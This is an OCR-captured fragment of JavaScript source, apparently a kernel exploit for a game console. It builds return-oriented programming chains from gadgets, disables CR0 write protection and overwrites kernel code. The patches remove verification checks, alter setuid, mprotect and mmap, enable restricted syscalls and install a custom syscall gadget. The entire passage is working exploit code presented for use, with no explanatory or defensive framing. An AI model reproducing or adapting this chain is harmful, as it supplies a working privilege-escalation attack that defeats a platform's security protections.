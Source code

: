             kchain.push(gadgets["pop rsi"]);
            kchain.push(0x80040033);
            kchain.push(gadgets["pop rdi"]);
            kchain.push(kchain2.stack);
            var idx2_dest = kchain.get_rsp();
            kchain.pushSymbolic(); // overwritten with KERNEL_setcr0    
            kchain.finalizeSymbolic(idx1, idx1_dest);
            kchain.finalizeSymbolic(idx2, idx2_dest);        
            //Initial patch(es)
            kchain2.kwrite2(KERNEL_veriPatch, 0x9090);
            kchain2.kwrite1(KERNEL_bcopy, 0xEB);
            //might as well do the others
            kchain2.kwrite1(KERNEL_bzero, 0xEB);
            kchain2.kwrite1(KERNEL_pagezero, 0xEB);
            kchain2.kwrite1(KERNEL_memcpy, 0xEB);
            kchain2.kwrite1(KERNEL_pagecopy, 0xEB);
            kchain2.kwrite1(KERNEL_copyin, 0xEB);
            kchain2.kwrite1(KERNEL_copyinstr, 0xEB);
            kchain2.kwrite1(KERNEL_copystr, 0xEB);    
            //I guess you're not all that bad...
            kchain2.kwrite1(KERNEL_busy, 0x0); //it should now be safe to handle timer-y interrupts again    
            //Restore original UD
            var idx3 = kchain2.write_kernel_addr_to_chain_later(KERNEL_Xill);
            var idx4 = kchain2.write_kernel_addr_to_chain_later(KERNEL_setidt);
            kchain2.push(gadgets["pop rdi"]);
            kchain2.push(0x6);
            kchain2.push(gadgets["pop rsi"]);
            var idx3_dest = kchain2.get_rsp();
            kchain2.pushSymbolic(); // overwritten with KERNEL_Xill
            kchain2.push(gadgets["pop rdx"]);
            kchain2.push(0xE);
            kchain2.push(gadgets["pop rcx"]);
            kchain2.push(0x0);
            kchain2.push(gadgets["pop r8"]);
            kchain2.push(0x0);
            var idx4_dest = kchain2.get_rsp();
            kchain2.pushSymbolic(); // overwritten with KERNEL_setidt     
            kchain2.finalizeSymbolic(idx3, idx3_dest);
            kchain2.finalizeSymbolic(idx4, idx4_dest);    
            //Apply kernel patches    
            kchain2.kwrite4(KERNEL_enable_syscalls_1, 0x00000000);
            //patch in reverse because /shrug
            kchain2.kwrite1(KERNEL_enable_syscalls_4, 0xEB);
            kchain2.kwrite2(KERNEL_enable_syscalls_3, 0x9090);
            kchain2.kwrite2(KERNEL_enable_syscalls_2, 0x9090);    
            kchain2.kwrite1(KERNEL_setuid, 0xEB);
            kchain2.kwrite4(KERNEL_mprotect, 0x00000000);
            kchain2.kwrite2(KERNEL_prx, 0xE990);
            kchain2.kwrite1(KERNEL_dlsym_1, 0xEB);
            kchain2.kwrite4(KERNEL_dlsym_2, 0xC3C03148);    
            kchain2.kwrite1(KERNEL_mmap_1, 0x37);
            kchain2.kwrite1(KERNEL_mmap_2, 0x37);    
            kchain2.kwrite4(KERNEL_syscall11_1, 0x00000002);
            kchain2.kwrite8_kaddr(KERNEL_syscall11_2, KERNEL_syscall11_gadget);
            kchain2.kwrite4(KERNEL_syscall11_3, 0x00000001);    
            //Restore CR0
            kchain2.kwrite4(KERNEL_setcr0_patch, 0xC3C7220F);
            var idx5 = kchain2.write_kernel_addr_to_chain_later(KERNEL_setcr0_patch);
            kchain2.push(gadgets["pop rdi"]);
            kchain2.push(0x80050033);
            var idx5_dest = kchain2.get_rsp();
            kchain2.pushSymbolic(); // overwritten with KERNEL_setcr0_patch
            kchain2.finalizeSymbolic(idx5, idx5_dest);    
            //Recover